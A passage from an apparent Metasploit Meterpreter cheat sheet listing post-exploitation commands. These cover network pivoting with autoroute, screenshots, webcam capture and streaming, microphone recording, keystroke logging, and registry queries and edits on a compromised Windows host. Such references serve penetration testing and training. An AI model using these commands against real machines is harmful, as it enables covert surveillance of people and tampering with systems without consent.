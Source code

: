 ### AutoRoute Module
```bash
# Background session
meterpreter > bg

# Use autoroute for automatic routing
msf6 > use post/multi/manage/autoroute
msf6 post(multi/manage/autoroute) > set SESSION 1
msf6 post(multi/manage/autoroute) > run
```

## Advanced Techniques

### Screenshot and Surveillance
```bash
# Capture screenshot
meterpreter > screenshot

# Webcam operations
meterpreter > webcam_list
meterpreter > webcam_snap
meterpreter > webcam_stream

# Audio recording
meterpreter > record_mic
```

### Keystroke Logging
```bash
# Start keylogger
meterpreter > keyscan_start

# Dump captured keystrokes
meterpreter > keyscan_dump

# Stop keylogger
meterpreter > keyscan_stop
```

### Registry Operations
```bash
# Registry enumeration
meterpreter > reg queryval -k HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion -v ProductName

# Registry modification
meterpreter > reg setval -k HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion -v TestValue -t REG_SZ -d "Test Data"

# Registry key creation
meterpreter > reg createkey -k HKLM\\SOFTWARE\\TestKey
```
